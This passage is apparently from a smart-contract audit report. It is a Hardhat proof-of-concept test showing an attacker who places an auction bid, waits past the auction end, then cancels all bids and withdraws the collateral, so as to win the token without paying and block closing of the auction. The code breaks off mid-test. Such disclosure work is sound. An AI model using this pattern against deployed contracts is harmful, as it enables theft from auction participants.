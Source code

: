 ```javascript
describe.only('PoC', function () {
  it('close all bids and win the token without paying anything. Also DoS the close auction mechanism if not enough funds available', async function () {
    let gasSpentByBidder = ethers.utils.parseEther("0");

    // Auction start: Now - 200
    // Auction end: Now + 100
    const instance = await getInstance({
      auctionLengthSeconds: 300,
      initialPeriodStartTime: (await time.latest()) - 200,
      licensePeriod: 1000,
    });
    const licenseMock = await ethers.getContractAt(
      'NativeStewardLicenseMock',
      instance.address,
    );

    const bidder1_initialBalance = await ethers.provider.getBalance(
      bidder1.address
    );
    expect(bidder1_initialBalance).to.be.equal(ethers.utils.parseEther("10000"));

    // Bids of Bidder 1 (Attacker)
    const bidder1_bidAmount = ethers.utils.parseEther('100');
    const bidder1_feeAmount = await instance.calculateFeeFromBid(bidder1_bidAmount);
    const bidder1_collateralAmount = bidder1_feeAmount.add(bidder1_bidAmount);

    // Bids of Bidder 2 (Victim)
    const bidder2_bidAmount = ethers.utils.parseEther('10');
    const bidder2_feeAmount = await instance.calculateFeeFromBid(bidder2_bidAmount);
    const bidder2_collateralAmount = bidder2_feeAmount.add(bidder2_bidAmount);

    await instance
      .connect(bidder2)
      .placeBid(0, bidder2_bidAmount, { value: bidder2_collateralAmount });

    const bidder1_bid = await instance
      .connect(bidder1)
      .placeBid(0, bidder1_bidAmount, { value: bidder1_collateralAmount });

    const bidder1_bid_receipt = (await bidder1_bid.wait())
    gasSpentByBidder = gasSpentByBidder.add(bidder1_bid_receipt.gasUsed.mul(bidder1_bid_receipt.effectiveGasPrice));

    // The attacker bidder placed the bid, and the eth balance got reduced
    const bidder1_BalanceAfterBid = await ethers.provider.getBalance(
      bidder1.address
    );
    expect(bidder1_BalanceAfterBid.add(gasSpentByBidder)).to.be.equal(bidder1_initialBalance.sub(bidder1_collateralAmount));

    const oldBeneficiaryBalance = await ethers.provider.getBalance(
      nonOwner.address,
    );

    await time.increase(100);

    const bidder1_cancelAllBids = await instance.connect(bidder1).cancelAllBidsAndWithdrawCollateral(0);
    const bidder1_cancelAllBids_receipt = (await bidder1_cancelAllBids.wait())
    gasSpentByBidder = gasSpentByBidder.add(bidder1_cancelAllBids_receipt.gasUsed.mul(bidder1_cancelAllBids_receipt.effectiveGasPrice));

```